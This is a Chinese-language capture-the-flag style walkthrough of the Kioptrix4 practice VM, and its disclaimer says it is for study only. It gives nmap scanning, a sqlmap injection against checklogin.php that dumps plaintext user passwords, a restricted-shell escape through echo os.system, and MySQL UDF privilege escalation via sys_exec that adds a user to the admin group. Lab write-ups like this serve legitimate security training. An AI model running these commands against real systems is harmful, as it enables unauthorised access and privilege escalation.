

# Kioptrix4 通关笔记

- 笔记内容由 [xidaner](https://github.com/xidaner) 提供,我仅作部分内容修改

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

# 前期
## nmap
开机后我们发现 这个用户名和密码是不知道的



在虚拟机中要先接入到和 kali 一个网段中.然后我们要知道这个虚拟机的 ip 地址,就要用到 IP 探活.

```
nmap -sP <你虚拟机网卡的网段> /24
```


可以发现网段中一共有 4 个 ip 地址,除去本机和 kali 剩下的就是靶机的 ip 地址

---

## 扫描开放端口
```
nmap 192.168.17.130
```


可以发现,目标打开了 80 端口


目测可以注入,尝试了简单 payload,下面选择直接跑 sqlmap

---
---
---

# 中期
## sql注入

代码:

```
sqlmap -u http://192.168.17.130/checklogin.php
--data="myusername=admin&mypassword=123&Submit=Login" -p mypassword --dump -T members -D members
```


```
 id | username | password              |
+----+----------+-----------------------+
| 1  | john     | MyNameIsJohn          |
| 2  | robert   | ADGAdsafdfwt4gadfga== |
```

---
---
---

# 后期
## 尝试 SSH 登陆

输入用户名和密码登陆进去


这里用了 echo 命令获取交互 shell
```
echo os.system("/bin/bash")
whoami
ifconfig
```


查看服务器下的文件
```
cd /var/www/
cat checklogin.php
```


---

## 登陆 MYSQL
```
mysql -u root -p
```

---


## mysql UDF 提权

在mysql中输入
```
use mysql

create function sys_exec returns integer soname 'lib_mysqludf_sys.so';

select sys_exec('id > /tmp/out; chown john.john /tmp/out');

```


```
use musql

select sys_exec('usermod -a -G admin ')
select sys_exec('usermod -a -G admin john');
```


在我们退出去后,尝试登陆到 root


`whoami` 确认获取 `root`
